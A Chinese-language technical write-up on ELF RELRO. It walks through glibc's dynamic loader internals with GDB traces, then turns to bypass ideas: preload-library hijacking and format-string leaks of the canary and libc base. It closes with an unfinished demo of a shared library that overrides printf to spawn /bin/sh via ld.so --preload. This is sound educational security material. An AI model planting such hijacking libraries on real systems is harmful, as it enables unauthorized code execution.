

GCC编译器允许使用下面的选项将RELRO全部开启.

```
-z relro -z now
```

开启以后检测ELF文件的安全属性可以看到RELRO的属性从`Partial RELRO`变成了`Full RELRO`。

```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      PIE enabled
```

不过我们现在还对RELRO一无所知，它为什么要存在，又能干什么呢？

# 何为RELRO

## 消失的节

首先观察RELRO开启前后的节信息。

```
RELRO全部开启：
 Section to Segment mapping:
  Segment Sections...
   00     
   01     .interp 
   02     .interp .note.gnu.property .note.gnu.build-id .note.ABI-tag .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rela.dyn .rela.plt 
   03     .init .plt .text .fini 
   04     .rodata .eh_frame_hdr .eh_frame 
   05     .init_array .fini_array .dynamic .got .data .bss 
   06     .dynamic 
   07     .note.gnu.property 
   08     .note.gnu.build-id .note.ABI-tag 
   09     .note.gnu.property 
   10     .eh_frame_hdr 
   11     
   12     .init_array .fini_array .dynamic .got

RELRO部分开启：
 Section to Segment mapping:
  Segment Sections...
   00     
   01     .interp 
   02     .interp .note.gnu.property .note.gnu.build-id .note.ABI-tag .gnu.hash .dynsym .dynstr .gnu.version .gnu.version_r .rela.dyn .rela.plt 
   03     .init .plt .text .fini 
   04     .rodata .eh_frame_hdr .eh_frame 
   05     .init_array .fini_array .dynamic .got .got.plt .data .bss 
   06     .dynamic 
   07     .note.gnu.property 
   08     .note.gnu.build-id .note.ABI-tag 
   09     .note.gnu.property 
   10     .eh_frame_hdr 
   11     
   12     .init_array .fini_array .dynamic .got
```

对比上面的信息可以发现，当RELRO全部开启时`.got.plt`节消失了，要知道该节位于可读可写段内，是为了延迟加载而存在的，当被调用函数位于动态链接库内且尚未被加载时，`.plt`节中首表项会发挥作用，因为它里面存储着`_dl_runtime_resolve_fxsave`函数的位置，`_dl_runtime_resolve_fxsave`函数会对动态链接库中的函数进行解析，然后修改`.got.plt`节中表项。`.plt`节中其余表项的首条`jmp`指令会指向`.got.plt`节中对应表项，如果函数尚未被解析，那么`.got.plt`节中对应表项存放的就是`.plt`节中表项的第二条`push`指令，继续运行第三条`jmp`指令时，该指令会指向`.plt`节中首表项，程序会开始运行`_dl_runtime_resolve_fxsave`函数，然后它解析调用动态链接库中的函数并让主程序调用。当函数再次被调用时，`.got.plt`节中对应表项存放的就是该函数的地址了，程序会使用该地址直接对函数进行调用。



此时`.got.plt`节的消失，是否也标志着延迟绑定的功能不在存在了呢？

## 延迟绑定的取消

添加`-z relro -z now`参数编译出来的程序，在其动态链接节中会出现`BIND_NOW`标志位。

```
Dynamic section at offset 0x2dc0 contains 27 entries:
 0x000000000000001e (FLAGS)              BIND_NOW
```

将程序挂到GDB上后发现，当程序首次调用动态链接库LibC中的`printf`函数时，`.plt`节会直接指向`printf`函数的所在位置，进而直接对函数进行调用。

```
1: x/i $rip
=> 0x5555555551ad <vuln+100>:   call   0x555555555040 <printf@plt>
(gdb)
0x0000555555555040 in printf@plt ()
1: x/i $rip
=> 0x555555555040 <printf@plt>:
    jmp    *0x2f8a(%rip)        # 0x555555557fd0 <printf@got.plt>
(gdb)
__printf (format=0x555555556008 "hello, I want to bypass full-relro %s\n")
    at printf.c:28
1: x/i $rip
=> 0x7ffff7e09c40 <__printf>:   endbr64
```

显然这时候已经没有延迟绑定了。在上面展示的信息中仍可以看到`.got.plt`的身影存在，它为什么会存在呢？

通过在`_start`函数设置断点可以发现，LD的`_start`函数被命中时，`got.plt`中内容还尚未被解析，但当主程序的_start函数被命中时，`got.plt`中的内容已经变成了`printf`函数的地址，因此这里猜测重定位的工作在程序正式运行前就由LD完成了。

```
0x00005555555551ad <+100>:   call   0x555555555040 <printf@plt>
x /i 0x555555555040
   0x555555555040 <printf@plt>: jmp    *0x2f8a(%rip)        # 0x555555557fd0 <printf@got.plt>

ld的_start函数被命中时plt的内容：
(gdb) x /10wx 0x555555557fd0
0x555555557fd0 <printf@got.plt>:        0x00001046      0x00000000      0x00000000      0x00000000
0x555555557fe0: 0x00000000      0x00000000      0x00000000      0x00000000
0x555555557ff0: 0x00000000      0x00000000

主程序的_start函数被命中时plt的内容
(gdb) x /10wx 0x555555557fd0
0x555555557fd0 <printf@got.plt>:        0xf7e09c40      0x00007fff      0xf7dd7cc0      0x00007fff
0x555555557fe0: 0x00000000      0x00000000      0x00000000      0x00000000
0x555555557ff0: 0x00000000      0x00000000
```

对`0x555555557fd0`地址设置观察点后，发现该地址上的数据对被`elf_dynamic_do_Rela`函数改变（下面展示了完整的调用栈）。

```
(gdb) awatch *0x555555557fd0

Old value = 4166
New value = -136274880
elf_dynamic_do_Rela (map=0x7ffff7ffe2e0, scope=<optimized out>, reladdr=<optimized out>, relsize=<optimized out>, nrelative=<optimized out>, lazy=<optimized out>, 
    skip_ifunc=<optimized out>) at ../sysdeps/x86_64/dl-machine.h:413

(gdb) bt
#0  elf_dynamic_do_Rela (map=0x7ffff7ffe2e0, scope=<optimized out>, reladdr=<optimized out>, relsize=<optimized out>, nrelative=<optimized out>, lazy=<optimized out>, 
    skip_ifunc=<optimized out>) at ../sysdeps/x86_64/dl-machine.h:413
#1  _dl_relocate_object (l=l@entry=0x7ffff7ffe2e0, scope=<optimized out>, reloc_mode=<optimized out>, consider_profiling=<optimized out>, consider_profiling@entry=0) at dl-reloc.c:301
#2  0x00007ffff7fe8891 in dl_main (phdr=<optimized out>, phnum=<optimized out>, user_entry=<optimized out>, auxv=<optimized out>) at rtld.c:2311
#3  0x00007ffff7fe5146 in _dl_sysdep_start (start_argptr=start_argptr@entry=0x7fffffffe170, dl_main=dl_main@entry=0x7ffff7fe6cc0 <dl_main>) at ../sysdeps/unix/sysv/linux/dl-sysdep.c:140
#4  0x00007ffff7fe69be in _dl_start_final (arg=0x7fffffffe170) at rtld.c:494rr
#5  _dl_start (arg=0x7fffffffe170) at rtld.c:581
#6  0x00007ffff7fe5748 in _start () from /lib64/ld-linux-x86-64.so.2
#7  0x0000000000000001 in ?? ()
#8  0x00007fffffffe468 in ?? ()
#9  0x0000000000000000 in ?? ()
(gdb) 
```

`dl_main`函数是LD的主要组成部分，其主要作用是完成动态链接库的解析及管理任务。

在`dl_main`函数内部首先判断的是`user_entry`，由于LD本身可以作为程序运行并支持通过LD运行程序，所以当发现`user_entry`就是LD自身的入口地址时，就说明此时运行的程序是LD，后续会对传给LD的参数进行处理。如果运行的程序不是动态链接器自身，那么LD接下来就会开始对指定程序进行处理。

```
if (*user_entry == (ElfW(Addr)) ENTRY_POINT)
```

```
直接运行程序时，user_entry保存的地址是对应程序可执行段中的地址
(gdb) x /gx 0x7fffffffde60
0x7fffffffde60: 0x0000555555555050
LOAD           0x0000000000001000 0x0000000000001000 0x0000000000001000
				0x0000000000026f55 0x0000000000026f55  R E    0x1000
555555554000-555555555000 r--p 00000000 08:01 2507248                    /home/test/labs/example
555555555000-555555556000 r-xp 00001000 08:01 2507248                    /home/test/labs/example

使用LD运行程序时，user_entry保存的地址是LD可执行段中的地址
x /20x 0x7fffffffde90
0x7fffffffde90: 0x00007ffff7fe5740
LOAD           0x0000000000001000 0x0000000000001000 0x0000000000001000
				0x0000000000026f55 0x0000000000026f55  R E    0x1000
7ffff7fc9000-7ffff7fca000 r--p 00000000 08:01 7351295                    /usr/lib/ld-linux-x86-64.so.2
7ffff7fca000-7ffff7ff1000 r-xp 00001000 08:01 7351295                    /usr/lib/ld-linux-x86-64.so.2
```

程序地址`0x0000555555555050`与起始地址`0x555555554000`的偏移是0x1050，LD地址`0x00007ffff7fe5740`与起始地址`0x7ffff7fc9000`的偏移是0x1c740，刚好可以和ELF头信息中记录的入口点对应上。

```
程序中的头信息：
Entry point address:               0x1050

LD中的头信息：
Entry point address:               0x1c740
```

接下来继续将视线转移到程序独立执行时的代码部分，此时代码会对`main_map`进行设置，这个变量属于`link_map`结构体，用于记录程序的信息，其中`main_map`是链表头，用于记录程序本身的信息，而链表上的其他节点则会记录动态链接信息。

下面代码展示了`main_map`的创建及设置段头信息的过程。

```
main_map = _dl_new_object((char *)"", "", lt_executable, NULL, __RTLD_OPENEXEC, LM_ID_BASE);
assert(main_map != NULL);
main_map->l_phdr = phdr;
段头
main_map->l_phnum = phnum;
段头数量
main_map->l_entry = *user_entry;
入口地址
_dl_add_to_namespace_list(main_map, LM_ID_BASE);
将main_map添加到全局链表内
```

之后代码会通过`rtld_is_main`判断LD是否作为独立的程序运行，如果不是，就会处理主程序中的动态链接信息。

```
if (!rtld_is_main)
{
	elf_get_dynamic_info (main_map, false, false);

	if (main_map->l_info[DT_SONAME] != NULL
		&& (strcmp (((const char *) D_PTR (main_map, l_info[DT_STRTAB])
		+ main_map->l_info[DT_SONAME]->d_un.d_val), LIBC_SO)
		== 0))
		GL(dl_ns)[LM_ID_BASE].libc_map = main_map;

	_dl_setup_hash(main_map);
}
```

从下面的信息中可以看到，`elf_get_dynamic_info`函数的主要作用就是从程序的ELF文件内提取动态链接节信息，用于后续访问。

```
elf_get_dynamic_info中枚举的动态链接信息：
{d_tag = 1, d_un = {d_val = 58, d_ptr = 58}}
{d_tag = 12, d_un = {d_val = 4096, d_ptr = 4096}}
{d_tag = 13, d_un = {d_val = 4572, d_ptr = 4572}}
{d_tag = 25, d_un = {d_val = 15792, d_ptr = 15792}}
......

ELF文件中读取的动态链接信息：
Dynamic section at offset 0x2dc0 contains 27 entries:
  Tag        Type                         Name/Value
 0x0000000000000001 (NEEDED)             Shared library: [libc.so.6]
 0x000000000000000c (INIT)               0x1000
 0x000000000000000d (FINI)               0x11dc
 ......
 0x0000000000000000 (NULL)               0x0
```

完成`.dynamic`节信息的提取后，就是设置vDSO。

```
setup_vdso (main_map, &first_preload);
setup_vdso_pointers ();
call_init_paths (&state);
```

接下来继续设置`link_map`的链表，建立主程序和LD间的关系。

```
main_map->l_next = &GL(dl_rtld_map);
GL(dl_rtld_map).l_prev = main_map;
++GL(dl_ns)[LM_ID_BASE]._ns_nloaded;
++GL(dl_load_adds);
```

紧接着，LD会处理预加载信息。Linux中提供动态链接库预加载机制，使得用户可以自定义动态链接库，当自定义的动态链接库中存在与默认动态链接库中相同的函数时，会优先使用预加载库中的函数。

从下面可以看到检测是否存在预加载库的方式有三种，一是解析配置文件`/etc/ld.so.preload`，二是解析`LD_PRELOAD`环境变量，三是检测`--preload`参数。

```
assert (*first_preload == NULL);
检测是否存在预加载库
if (__glibc_unlikely (state.preloadlist != NULL))
	......
if (__glibc_unlikely (state.preloadarg != NULL))
	......
检测指定文件内，是否存在预加载库信息
static const char preload_file[] = "/etc/ld.so.preload";
if (__glibc_unlikely (__access (preload_file, R_OK) == 0))
	......
if (__glibc_unlikely (*first_preload != NULL))
	......
```

处理好预加载信息后，就会通过`_dl_map_object_deps`函数将动态链接库加载进入内存，再设置线程信息。进行`_dl_map_object_deps`之前，会发现处理程序相关的动态链接库（vDSO、LD除外）都还没有被加载进入内存。

当程序运行的所需信息都完成加载后，接下来要进行的就是重要的重定位操作。

首先见到与延迟绑定相关的就是下面两条语句，它要求程序被分析时必须进行延迟重定位，GCC编译器中可以使用`-pg`选项开启分析功能，然后使用`gprof`工具对生成的分析信息进行解析。

```
int consider_profiling = GLRO(dl_profile) != NULL;
GLRO(dl_lazy) |= consider_profiling;
```

当分析功能开启时，程序必须进行延迟重定位。重定位的具体操作是由`_dl_relocate_object`函数负责的，它会根据`dl_lazy`的数值决定是否进行延迟重定位。

```
if (GL(dl_ns)[LM_ID_BASE].libc_map != NULL)
	_dl_relocate_object (GL(dl_ns)[LM_ID_BASE].libc_map,
		GL(dl_ns)[LM_ID_BASE].libc_map->l_scope,
		GLRO(dl_lazy) ? RTLD_LAZY : 0, consider_profiling);
```

进入`_dl_relocate_object`函数内观察`link_map`可以发现，程序所有需要的动态链接信息均已经是设置还好的，每次重定位元素都是当前指针指向的链表元素。

```
(gdb) p *l
$2 = {l_addr = 140737351720960, l_name = 0x7ffff7ffef50 "/usr/lib/libc.so.6", 
  l_ld = 0x7ffff7f93960, l_next = 0x7ffff7ffdab0 <_rtld_global+2736>,
  ......
}

(gdb) p *l->l_next
$3 = {l_addr = 140737353912320, 
  l_name = 0x555555554318 "/lib64/ld-linux-x86-64.so.2", l_ld = 0x7ffff7ffce68, 
  l_next = 0x0, l_prev = 0x7ffff7f9e000, 
  l_real = 0x7ffff7ffdab0 <_rtld_global+2736>,
  ......
}

(gdb) p *l->l_prev
$5 = {l_addr = 140737353904128, l_name = 0x7ffff7fc7371 "linux-vdso.so.1", 
  l_ld = 0x7ffff7fc73e0, l_next = 0x7ffff7f9e000, l_prev = 0x7ffff7ffe2e0,
  ......
}


(gdb) p *l->l_prev->l_prev
$8 = {l_addr = 93824992231424, l_name = 0x7ffff7ffe8b8 "", l_ld = 0x555555557dc0, 
  l_next = 0x7ffff7ffe8c0, l_prev = 0x0, l_real = 0x7ffff7ffe2e0, l_ns = 0,
  ......
}
```

重定位过程中，首先需要修正的是`DT_TEXTREL`，这是因为ELF文件内可能存在使用绝对地址的情况，当LD检测到`DT_TEXTREL`标志位时，就会先修正那些编译时确立的绝对地址（编译器无法预知运行时的状况，原本的地址可能是无法使用的）。

这段代码算是历史遗留，因为现在基本是看不到直接使用绝对地址的情况了。

```
if (__glibc_unlikely (l->l_info[DT_TEXTREL] != NULL))
	......
```

再之后，要进行重定位的就是GOT表，GOT表中使用的地址都是相对地址，所以运行在运行期通过`ELF_DYNAMIC_RELOCATE`进行修改。

```
# define ELF_DYNAMIC_RELOCATE(map, scope, lazy, consider_profile, skip_ifunc) \
  do {									      \
    int edr_lazy = elf_machine_runtime_setup ((map), (scope), (lazy),	      \
					      (consider_profile));	      \
    if (((map) != &GL(dl_rtld_map) || DO_RTLD_BOOTSTRAP))		      \
      ELF_DYNAMIC_DO_RELR (map);					      \
    ELF_DYNAMIC_DO_REL ((map), (scope), edr_lazy, skip_ifunc);		      \
    ELF_DYNAMIC_DO_RELA ((map), (scope), edr_lazy, skip_ifunc);		      \
    ELF_DYNAMIC_AFTER_RELOC ((map), (edr_lazy));			      \
  } while (0)

ELF_DYNAMIC_RELOCATE (l, scope, lazy, consider_profiling, skip_ifunc);
```

在这段宏定义中，`elf_machine_runtime_setup`适用于判断是否需要延迟加载的，而宏`ELF_DYNAMIC_DO_REL`、`ELF_DYNAMIC_DO_RELA`是非常相近似的，它们分别对应不同的重定位表，从实际上来讲，这些实际对应的仍是`_ELF_DYNAMIC_DO_RELOC`。

```
# if ! ELF_MACHINE_NO_REL
#  include "do-rel.h"
#  define ELF_DYNAMIC_DO_REL(map, lazy, skip_ifunc) \
  _ELF_DYNAMIC_DO_RELOC (REL, Rel, map, lazy, skip_ifunc, _ELF_CHECK_REL)
# else
#  define ELF_DYNAMIC_DO_REL(map, lazy, skip_ifunc) /* Nothing to do.  */
# endif

# if ! ELF_MACHINE_NO_RELA
#  define DO_RELA
#  include "do-rel.h"
#  define ELF_DYNAMIC_DO_RELA(map, lazy, skip_ifunc) \
  _ELF_DYNAMIC_DO_RELOC (RELA, Rela, map, lazy, skip_ifunc, _ELF_CHECK_REL)
# else
#  define ELF_DYNAMIC_DO_RELA(map, lazy, skip_ifunc) /* Nothing to do.  */
# endif
```

从下面的宏中可以看到，`ranges`变量定义两项，该变量会记录需要重定位信息，最后一位区分是否进行延迟重定位。该变量会从重定位节中获取数据，元素0中记录重定位信息表`.rela.dyn`的信息，元素1记录重定位链接表`.rela.plt`的信息。

```
# define _ELF_DYNAMIC_DO_RELOC(RELOC, reloc, map, do_lazy, skip_ifunc, test_rel) \
  do {									      \
    struct { ElfW(Addr) start, size;					      \
	     __typeof (((ElfW(Dyn) *) 0)->d_un.d_val) nrelative; int lazy; }  \
      ranges[2] = { { 0, 0, 0, 0 }, { 0, 0, 0, 0 } };			      \
									      \
    if ((map)->l_info[DT_##RELOC])					      \
      {									      \
	ranges[0].start = D_PTR ((map), l_info[DT_##RELOC]);		      \
	ranges[0].size = (map)->l_info[DT_##RELOC##SZ]->d_un.d_val;	      \
	if (map->l_info[VERSYMIDX (DT_##RELOC##COUNT)] != NULL)		      \
	  ranges[0].nrelative						      \
	    = map->l_info[VERSYMIDX (DT_##RELOC##COUNT)]->d_un.d_val;	      \
      }									      \
    if ((map)->l_info[DT_PLTREL]					      \
	&& (!test_rel || (map)->l_info[DT_PLTREL]->d_un.d_val == DT_##RELOC)) \
      {									      \
	ElfW(Addr) start = D_PTR ((map), l_info[DT_JMPREL]);		      \
	ElfW(Addr) size = (map)->l_info[DT_PLTRELSZ]->d_un.d_val;	      \
									      \
	if (ranges[0].start + ranges[0].size == (start + size))		      \
	  ranges[0].size -= size;					      \
	if (ELF_DURING_STARTUP						      \
	    || (!(do_lazy)						      \
		&& (ranges[0].start + ranges[0].size) == start))	      \
	  {								      \
	    /* Combine processing the sections.  */			      \
	    ranges[0].size += size;					      \
	  }								      \
	else								      \
	  {								      \
	    ranges[1].start = start;					      \
	    ranges[1].size = size;					      \
	    ranges[1].lazy = (do_lazy);					      \
	  }								      \
      }									      \
									      \
    if (ELF_DURING_STARTUP)						      \
      elf_dynamic_do_##reloc ((map), ranges[0].start, ranges[0].size,	      \
			      ranges[0].nrelative, 0, skip_ifunc);	      \
    else								      \
      {									      \
	int ranges_index;						      \
	for (ranges_index = 0; ranges_index < 2; ++ranges_index)	      \
	  elf_dynamic_do_##reloc ((map),				      \
				  ranges[ranges_index].start,		      \
				  ranges[ranges_index].size,		      \
				  ranges[ranges_index].nrelative,	      \
				  ranges[ranges_index].lazy,		      \
				  skip_ifunc);				      \
      }									      \
  } while (0)
```

宏读取完重定位信息后，会调用`elf_dynamic_do_Rela`函数正式开始改写数据。

完成重定位之后，就会运行LibC的早期初始化函数以及进行清理信息等等操作，`dl_main`负责的启动任务也告一段落。

## 无效的Full-Relro？

通过对比查找动态链接库函数的地址`0x6347e3701fc8`和程序的起始地址`0x6347e36fe000`，可以发现其偏移值为`3fc8`，它位于`.got`节中，该节又位于可读可写段中。

```
5号段：
LOAD           0x0000000000002db0 0x0000000000003db0 0x0000000000003db0
                 0x0000000000000260 0x0000000000000268  RW     0x1000
05     .init_array .fini_array .dynamic .got .data .bss

objdump --section=.got -s ./relro_bypass_example 
Contents of section .got:
 3fb0 c03d0000 00000000 00000000 00000000  .=..............
 3fc0 00000000 00000000 36100000 00000000  ........6.......
 3fd0 46100000 00000000 00000000 00000000  F...............
 3fe0 00000000 00000000 00000000 00000000  ................
 3ff0 00000000 00000000 00000000 00000000  ................
```

`.plt`节中的`push`指令根据函数在`.rela.plt`节中的索引值压入栈内。

```
Disassembly of section .plt:
0000000000001020 <__stack_chk_fail@plt-0x10>:
    1020:       ff 35 92 2f 00 00       push   0x2f92(%rip)        # 3fb8 <_GLOBAL_OFFSET_TABLE_+0x8>
    1026:       ff 25 94 2f 00 00       jmp    *0x2f94(%rip)        # 3fc0 <_GLOBAL_OFFSET_TABLE_+0x10>
    102c:       0f 1f 40 00             nopl   0x0(%rax)
0000000000001030 <__stack_chk_fail@plt>:
    1030:       ff 25 92 2f 00 00       jmp    *0x2f92(%rip)        # 3fc8 <__stack_chk_fail@GLIBC_2.4>
    1036:       68 00 00 00 00          push   $0x0
    103b:       e9 e0 ff ff ff          jmp    1020 <_init+0x20>
0000000000001040 <printf@plt>:
    1040:       ff 25 8a 2f 00 00       jmp    *0x2f8a(%rip)        # 3fd0 <printf@GLIBC_2.2.5>
    1046:       68 01 00 00 00          push   $0x1
    104b:       e9 d0 ff ff ff          jmp    1020 <_init+0x20>

Relocation section '.rela.plt' at offset 0x660 contains 2 entries:
  Offset          Info           Type           Sym. Value    Sym. Name + Addend
000000003fc8  000300000007 R_X86_64_JUMP_SLO 0000000000000000 __stack_chk_fail@GLIBC_2.4 + 0
000000003fd0  000400000007 R_X86_64_JUMP_SLO 0000000000000000 printf@GLIBC_2.2.5 + 0

plt中压入栈的的数据，是.rela.plt中的索引值
0003fc8 0000 0000 0000 0000 0001 0000 0000 0000
```

从上面可以看到，尽管当`full reloro`开启时，使得程序不再进行延迟绑定以及`.got.plt`节也随之消失，但是动态链接库只是从调用时加变成了运行前加载，`.got.plt`节也只是融入到`.got`内，实际函数调用时还是先通过`.plt`节中的`jmp`指令到`.got`内查找地址。

`.got`既然始终可写，那这开不开`full reloro`好像没有意义啊！

经过进一步排查，会发现ELF文件中的确是如此定义，但当运行时就会从5个段变成4个段，增加了一个不可写的段，查询的被调用函数地址也位于该段中。

这个段是什么时候添加上去的呢？

```
运行时的段信息：
0x6347e36fe000     0x6347e36ff000     0x1000        0x0  r--p   ./example
0x6347e36ff000     0x6347e3700000     0x1000     0x1000  r-xp   ./example
0x6347e3700000     0x6347e3701000     0x1000     0x2000  r--p   ./example
0x6347e3701000     0x6347e3702000     0x1000     0x2000  r--p   ./example
0x6347e3702000     0x6347e3703000     0x1000     0x3000  rw-p   ./example

ELF文件中的段信息：
LOAD           0x0000000000000000 0x0000000000000000 0x0000000000000000
                 0x00000000000006c8 0x00000000000006c8  R      0x1000
LOAD           0x0000000000001000 0x0000000000001000 0x0000000000001000
                 0x00000000000001fd 0x00000000000001fd  R E    0x1000
LOAD           0x0000000000002000 0x0000000000002000 0x0000000000002000
                 0x00000000000000fc 0x00000000000000fc  R      0x1000
LOAD           0x0000000000002da8 0x0000000000003da8 0x0000000000003da8
                 0x0000000000000268 0x0000000000000270  RW     0x1000
```

通过在`_start`处设置断点，可以发现当LD准备开始运行时，还是遵照ELF文件的约定保持4个段。当主程序准备开始运行时，最后一个段就会分裂出一个不可写的段。

```
LD阶段：
0x555555554000     0x555555555000     0x1000        0x0  r--p   ./example
0x555555555000     0x555555556000     0x1000     0x1000  r-xp   ./example
0x555555556000     0x555555557000     0x1000     0x2000  r--p   ./example
0x555555557000     0x555555559000     0x2000     0x2000  rw-p   ./example

主程序阶段：
0x555555557000     0x555555558000     0x1000     0x2000  r--p   ./example
0x555555558000     0x555555559000     0x1000     0x3000  rw-p   ./example
```

前面说过重定位操作是`dl_main`函数中的`_dl_relocate_object`操作的，查看代码可以知道，在`_dl_relocate_object`函数的最后会检查`l_relro_size`变量的数值，如果不为0就调用`_dl_protect_relro`函数。

`_dl_protect_relro`函数会根据受保护地址的偏移值`l->l_relro_addr`重新划分出一个新段，这个新段的属性是只读的。

```
_dl_relocate_object
{
	......
	if (l->l_relro_size != 0)
		_dl_protect_relro (l);
}

353     void
354     _dl_protect_relro (struct link_map *l)
355     {
356       ElfW(Addr) start = ALIGN_DOWN((l->l_addr
357                                      + l->l_relro_addr),
358                                     GLRO(dl_pagesize));
359       ElfW(Addr) end = ALIGN_DOWN((l->l_addr
360                                    + l->l_relro_addr
361                                    + l->l_relro_size),
362                                   GLRO(dl_pagesize));
363       if (start != end
364           && __mprotect ((void *) start, end - start, PROT_READ) < 0)
365         {
366           static const char errstring[] = N_("\
367     cannot apply additional memory protection after relocation");
368           _dl_signal_error (errno, l->l_name, NULL, errstring);
369         }
370     }
```

主程序的`l_relro_size`和`l_relro_addr`是由`dl_main`中的`rtld_setup_main_map`函数设置的，该函数内部会遍历ELF的段，其中就包含根据`PT_GNU_RELRO`段。

```
case PT_GNU_RELRO:
	main_map->l_relro_addr = ph->p_vaddr;
	main_map->l_relro_size = ph->p_memsz;
	break;
```

所有只读的重定位信息都会位于`PT_GNU_RELRO`段内，`PT_GNU_RELRO`段会将可读可写的`LOAD`段分配出一段只读空间，内当`Full RELRO`开启时，被调用函数的查询地址会被编译器分配到`.got`节内，`.got`节位于只读段的范围内，但当程序只是`Partial RELRO`时，被调用函数的查询地址会被编译器分配到`.got.plt`中，`.got.plt`节则位于可读可写段的范围内。

```
GNU_RELRO指示将LOAD中0x3da8到0x3da8+0x258的范围变为只读

LOAD           0x0000000000002da8 0x0000000000003da8 0x0000000000003da8
                 0x0000000000000268 0x0000000000000270  RW     0x1000
GNU_RELRO      0x0000000000002da8 0x0000000000003da8 0x0000000000003da8
                 0x0000000000000258 0x0000000000000258  R      0x1
```

## 总结

RELRO的开启标志着重定位信息是否只读，`Partial RELRO`为了延迟绑定而存在，它允许`.got.plt`节存在且可读，保障运行时进行重定位可以改写被查找的调用函数地址。`Full RELRO`则将全部的重定位信息设置为只读状态，在编译阶段，仍会将待运行时重定位的函数放入可可段内，但会添加`BIND_NOW`标志进行标识，在运行阶段，LD会在程序正式运行前将函数重定位好，并从可写段中将重定位信息划分到只读段内，保障重定位信息后续不会被修改。

不管是静态链接的函数还是动态链接的函数，其具体实现都会位于可执行段中，区别在于调用它们的方式会有所差别，静态链接的函数会根据相对地址直接进行调用，而动态链接函数则需要根据PLT指示查找对应函数然后调用。当程序的重定位信息只是部分只读`Partial RELRO`时，程序会使用延迟重定位，此时保持函数解析方式或所在地址的`.got.plt`节是可写，仍具备掉包动态链接函数的可能性。而当重定位信息变成全部只读`Full RELRO`时，函数地址会被解析在`.got`节内，就无法对动态链接函数进行掉包了。

# 绕过思路

## 预加载库

首先前面提到过`dl_main`函数在初始化时会检查当前是否设置了预加载库，当预加载库存在时，程序会优先使用预加载库中的函数，此时就可以实现动态链接的函数掉包。

## 信息泄露

当存在程序中存在自定义格式化字符串及设置缓冲区变量内容的机会时，可以将金丝雀及LibC的基地址泄露出来，并在栈上构造Shellcode，此时无需改写重定位信息，也可以借助函数的正常返回逻辑达到利用的效果。

# 示例讲解

## 预加载库

```
0000000000001149 <vuln>:
    1149:       55                      push   %rbp
    114a:       48 89 e5                mov    %rsp,%rbp
    114d:       48 83 ec 40             sub    $0x40,%rsp
    1151:       64 48 8b 04 25 28 00    mov    %fs:0x28,%rax
    1158:       00 00 
    115a:       48 89 45 f8             mov    %rax,-0x8(%rbp)
    115e:       31 c0                   xor    %eax,%eax
    1160:       48 b8 2e 2e 2e 2e 2e    movabs $0x2e2e2e2e2e2e,%rax
    1167:       2e 00 00 
    116a:       ba 00 00 00 00          mov    $0x0,%edx
    116f:       48 89 45 c0             mov    %rax,-0x40(%rbp)
    1173:       48 89 55 c8             mov    %rdx,-0x38(%rbp)
    1177:       48 c7 45 d0 00 00 00    movq   $0x0,-0x30(%rbp)
    117e:       00 
    117f:       48 c7 45 d8 00 00 00    movq   $0x0,-0x28(%rbp)
    1186:       00 
    1187:       48 c7 45 e0 00 00 00    movq   $0x0,-0x20(%rbp)
    118e:       00 
    118f:       48 c7 45 e8 00 00 00    movq   $0x0,-0x18(%rbp)
    1196:       00 
    1197:       48 8d 45 c0             lea    -0x40(%rbp),%rax
    119b:       48 89 c6                mov    %rax,%rsi
    119e:       48 8d 05 63 0e 00 00    lea    0xe63(%rip),%rax        # 2008 <_IO_stdin_used+0x8>
    11a5:       48 89 c7                mov    %rax,%rdi
    11a8:       b8 00 00 00 00          mov    $0x0,%eax
    11ad:       e8 8e fe ff ff          call   1040 <printf@plt>
    11b2:       90                      nop
    11b3:       48 8b 45 f8             mov    -0x8(%rbp),%rax
    11b7:       64 48 2b 04 25 28 00    sub    %fs:0x28,%rax
    11be:       00 00 
    11c0:       74 05                   je     11c7 <vuln+0x7e>
    11c2:       e8 69 fe ff ff          call   1030 <__stack_chk_fail@plt>
    11c7:       c9                      leave
    11c8:       c3                      ret

00000000000011c9 <main>:
    11c9:       55                      push   %rbp
    11ca:       48 89 e5                mov    %rsp,%rbp
    11cd:       e8 77 ff ff ff          call   1149 <vuln>
    11d2:       b8 00 00 00 00          mov    $0x0,%eax
    11d7:       5d                      pop    %rbp
    11d8:       c3                      ret
```

在示例程序的反汇编结果内可以发现，程序会调用LibC中的`printf`函数，因此我们可以自定义一个`printf`函数，并进行预加载，掉包LibC中的`printf`函数，示例动态链接库如下所示。

```
源代码：
#include <stdlib.h>

int printf(const char* format, ...)
{
	system("/bin/sh");

	return 0;
}

编译选项：
CFLAG=-fpic
LDFLAG=-shared -fstack-protector -z noexecstack -z relro -z now
```

前面分析`dl_main`函数时，得到想要预加载机制运行有三种途径，一是借助LD提供的`--preload`参数，二是借助环境遍历`LD_PRELOAD`，三是借助配置文件`/etc/ld.so.preload`，下面会对1、2两种方式进行演示。

借助LD的`--preload`参数：

```
ld.so --preload /home/test/libtest.so ./example 
sh-5.2$ whoami
test
sh-5.2$ exit
exit
```

借助环境变量`LD_PRELOAD`：

```
